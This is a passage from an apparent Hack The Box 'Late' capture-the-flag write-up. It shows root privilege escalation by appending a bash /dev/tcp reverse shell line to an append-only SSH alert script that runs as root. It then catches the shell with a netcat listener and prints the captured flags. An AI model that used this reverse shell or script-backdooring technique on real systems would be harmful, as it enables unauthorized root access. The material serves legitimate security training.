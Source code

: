 Nice! The script is being ran by `UID=0`. 

```bash
svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh 
-----a--------e--- /usr/local/sbin/ssh-alert.sh
```

>   `lsattr` shows the attribute of the file. The `a` in the attributes indicate that we can only add things to the end of the file.

Lets add a reverse shell bash script to the end of the file and execute `ssh-alert.sh`.

```bash
svc_acc@late:~$ echo 'bash -c "exec bash -i &>/dev/tcp/10.10.14.4/9999 <&1"' >> /usr/local/sbin/ssh-alert.sh 
svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh 
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi


bash -c "exec bash -i &>/dev/tcp/10.10.14.4/9999 <&1"
```

Finally, we can start another netcat listener and execute the script.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# nc -nlvp 9999            
listening on [any] 9999 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.156] 34786
bash: cannot set terminal process group (2037): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# cat /home/svc_acc/user.txt
cat /home/svc_acc/user.txt
0d165b9722b722ff76c56cc75ccbc819
root@late:/# cat /root/root.txt
cat /root/root.txt
72dac27da89ba5002503d1eaf8011367
```
